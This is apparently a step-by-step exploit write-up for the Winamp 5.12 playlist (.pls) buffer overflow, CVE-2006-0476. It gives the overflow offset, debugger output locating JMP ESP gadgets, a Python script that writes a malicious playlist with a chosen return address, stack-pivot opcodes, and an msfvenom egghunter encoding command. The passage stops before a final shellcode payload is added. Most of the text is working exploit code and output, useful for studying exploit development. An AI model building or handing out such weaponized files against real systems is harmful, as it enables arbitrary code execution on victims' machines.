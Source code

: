# Winamp 5.12 Playlist Buffer Overflow
References: 
- https://www.exploit-db.com/exploits/1458
- https://packetstormsecurity.com/files/152706/Winamp-5.12-Playlist-.pls-Buffer-Overflow.html
- https://www.cvedetails.com/cve/CVE-2006-0476/ 
- https://resources.infosecinstitute.com/topic/buffer-overflow-vulnserver/#gref
- https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/
  
*Buffer overflow in Nullsoft Winamp 5.12 allows remote attackers to execute arbitrary code via a playlist (pls) file with a long file name (File1 field).*

## Exploitation

### 1. Control EIP

PLS playlist structure as is follows:
```
[playlist]
File1=\Program Files\Winamp\demo.mp3 
Title1=DJ Mike Llama - Llama Whippin' Intro
Length1=5
NumberOfEntries=1
Version=2

```
The filename has to be long enough to overwrite the address of EIP. By sending increasingly longer inputs in as the filename, the length needed to control EIP is 1022, with the next 4 bytes on top of that being executed as the EIP address. 

![UI Screenshot](img/1.jpg)]

### 2. Find JMP ESP instruction
On the crash, ESP points to buffer space directly after EIP. Find a JMP ESP instruction:
```
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp

           ---------- Mona command started on 2020-12-22 16:29:07 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 8 modules
0BADF00D       - Querying module jnetlib.w5s
0BADF00D       - Querying module in_wm.dll
0BADF00D       - Querying module in_nsv.dll
0BADF00D       - Querying module winamp.exe
0BADF00D       - Querying module gen_ff.dll
0BADF00D       - Querying module gen_ml.dll
0BADF00D       - Querying module aacPlusDecoder.w5s
0BADF00D       - Querying module in_mp3.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D       - Number of pointers of type 'call esp' : 2
0BADF00D       - Number of pointers of type 'push esp # ret ' : 20
0BADF00D       - Number of pointers of type 'push esp # ret 0x04' : 1
0BADF00D   [+] Results :
1A113749     0x1a113749 : jmp esp | ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1E8C15     0x1a1e8c15 : jmp esp |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1073614F     0x1073614f : call esp | ascii {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0202D961     0x0202d961 : call esp |  {PAGE_EXECUTE_READ} [in_mp3.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_mp3.dll)
66601B1D     0x66601b1d : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660480C     0x6660480c : push esp # ret  | ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
66604E65     0x66604e65 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660505E     0x6660505e : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
666068A3     0x666068a3 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660699A     0x6660699a : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660E2D1     0x6660e2d1 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
1501BAF6     0x1501baf6 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_nsv.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_nsv.dll)
1A10539F     0x1a10539f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A17B88F     0x1a17b88f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A18C3D2     0x1a18c3d2 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1CE776     0x1a1ce776 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1F3067     0x1a1f3067 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1072D056     0x1072d056 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0A4     0x1072d0a4 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0B7     0x1072d0b7 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 25 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:07:22.697000
```
Of these, I can use the instruction at address: `0x1a1e8c15`.  
Exploit is now:
`[PADDING][JMP ESP][INTERRUPT]`
The interrupts are there to stop the program before it crashes again. Python exploit currently looks like:
```python
#!/usr/bin/env python

from struct import pack

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * 1022 + pack('<I', 0x1a1e8c15) + b'\xCC' * 4
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'

with open('exp.pls', 'wb') as plsFile:
	plsFile.write(plsPart1 + plsFile1 + plsPart2)

```

![UI Screenshot](img/2.jpg)]

When running the resulting playlist file, the interrupts get hit, so we are now jumping to ESP and executing there, but this has only a small amount of space, only 11 bytes to the next null byte, so any useful shellcode payload is not going to fit. So from here another jump needs to happen back into the original filename buffer. This can be done first by decreasing the ESP pointer back onto the buffer and then jumping again.
```bash
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./nasm_shell.rb 
nasm > sub esp, 58
00000000  83EC3A            sub esp,byte +0x3a
nasm > jmp esp
00000000  FFE4              jmp esp
```
With the space I have, I can subtract 58 from ESP twice and then jump there. Modifications to exploit:
```python
subesp = b'\x83\xEC\x3A'
jmpesp = b'\xFF\xE4'

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * (906+4) + b'\xCC' * (116-4) + pack('<I', 0x1a1e8c15) + (subesp * 2) + jmpesp
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'
```
I put some interrupts where the execution should jump to. Another interrupt back in the file buffer:

![UI Screenshot](img/3.jpg)]

Still not enough stack space for a payload, so from here use egghunter to jump again to a bigger area. Firstly generate some egghunter shellcode, needs to be passed to msfvenom to encode out badchars.
```bash
┌──(kali㉿kali)-[~]
└─$ msf-egghunter --arch x86 --platform windows -e JACK -f raw | msfvenom -p - --arch x86 --platform windows -e x86/alpha_mixed -f python --var-name egg > egghunt_encoded.py
Attempting to read payload from STDIN...

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 126 (iteration=0)
x86/alpha_mixed chosen with final size 126
Payload size: 126 bytes
Final size of python file: 625 bytes
```

